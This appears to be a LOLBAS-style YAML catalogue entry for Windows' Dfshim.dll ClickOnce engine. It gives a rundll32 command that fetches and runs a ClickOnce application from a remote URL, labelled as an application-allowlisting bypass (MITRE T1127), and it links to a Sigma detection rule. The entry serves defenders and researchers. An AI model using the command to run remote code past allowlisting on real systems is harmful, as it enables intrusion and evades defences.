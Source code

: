 ```yaml
---
Name: Dfshim.dll
Description: ClickOnce engine in Windows used by .NET
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rundll32.exe dfshim.dll,ShOpenVerbApplication http://www.domain.com/application/?param1=foo
    Description: Executes click-once-application from Url (trampoline for Dfsvc.exe, DotNet ClickOnce host)
    Usecase: Use binary to bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: ClickOnce
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Dfsvc.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://stackoverflow.com/questions/13312273/clickonce-runtime-dfsvc-exe
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

